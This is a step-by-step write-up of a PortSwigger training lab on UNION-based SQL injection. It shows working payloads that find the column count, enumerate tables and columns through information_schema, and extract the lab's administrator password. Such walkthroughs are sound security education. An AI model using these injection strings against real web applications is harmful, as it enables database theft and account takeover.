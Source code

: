 ## [Lab: SQL injection attack, listing the database contents on non-Oracle databases]([https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

### Steps

1. **Access the Lab**  
   - Navigate to the lab and click the "Accessories" category. This sends a request:  
     `GET /filter?category=Accessories`.

2. **Set Up Burp Suite**  
   - Open Burp Suite Community Edition and configure it to intercept browser requests.  
   - Capture the `GET /filter?category=Accessories` request for manipulation.

3. **Determine Number of Columns**  
   - Test the number of columns using `ORDER BY`:  
     - `category=Accessories' ORDER BY 1--`: 200 OK.  
     - `category=Accessories' ORDER BY 2--`: 200 OK.  
     - `category=Accessories' ORDER BY 3--`: 500 Error.  
   - **Result**: The query has 2 columns.

4. **Determine Column Data Types**  
   - Use `UNION SELECT` to test which columns accept string or NULL values:  
     - `category=Accessories' UNION SELECT 'a','a'--`: 200 OK.  
     - `category=Accessories' UNION SELECT 'a',NULL--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,'a'--`: 200 OK.  
     - `category=Accessories' UNION SELECT NULL,NULL--`: 200 OK.  
   - **Result**: Both columns accept string or NULL values.

5. **List All Table Names**  
   - Query the `information_schema.tables` to retrieve table names:  
     - `category=Accessories' UNION SELECT table_name, NULL FROM information_schema.tables--`.  
   - **Result**: Identifies the table `users_diivsh`.

6. **List Column Names for the Table**  
   - Query `information_schema.columns` for columns in `users_diivsh`:  
     - `category=Accessories' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_diivsh'--`.  
   - **Result**: Finds columns `username_bgrkmu` and `password_ynsimc`.

7. **Retrieve Username and Password**  
   - Extract data from the `users_diivsh` table:  
     - `category=Accessories' UNION SELECT username_bgrkmu, password_ynsimc FROM users_diivsh--`.  
   - **Result**: Returns credentials:  
     - Username: `administrator`  
     - Password: `vy7vsqslonb4adqfd8x1`

8. **Login and Solve the Lab**  
   - Use the credentials (`administrator` / `vy7vsqslonb4adqfd8x1`) to log in via the lab’s login page.  
   - Upon successful login, the lab displays a "Congratulations" message.
